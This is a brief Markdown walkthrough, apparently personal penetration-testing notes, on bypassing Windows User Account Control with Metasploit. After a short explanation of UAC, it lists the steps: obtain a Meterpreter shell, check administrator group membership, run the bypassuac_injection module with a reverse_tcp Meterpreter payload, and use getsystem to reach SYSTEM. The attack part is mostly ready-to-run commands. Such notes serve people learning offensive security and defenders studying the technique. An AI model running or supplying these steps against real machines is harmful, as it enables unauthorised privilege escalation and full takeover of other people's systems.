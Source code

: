 # Bypassing UAC via Metasploit

- UAC (User account control) is a Windows security feature that requires administrative approval to make changes in the operating system.
- It is the yes/no box that appears saying "Do you want this app to make changes to your device?" when we try to execute an app.

#### PRIVILEGE ESCALTION:

1. Gain a x64 Meterpreter shell
2. Check whether the current user is in the "Administrators" group

```
net users
net localgroup administrators
```

3. Now background the current Meterpreter shell
4. and load the following module and run it

```
use exploit/windows/local/bypassuac_injection
set SESSION 1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

5. This exploit will bypass the UAC and opens a second Meterpreter shell session with UAC flag turned off.
6. This allows us to run `getsystem` command and escalate our current privileges to NT AUTHORITY / SYSTEM

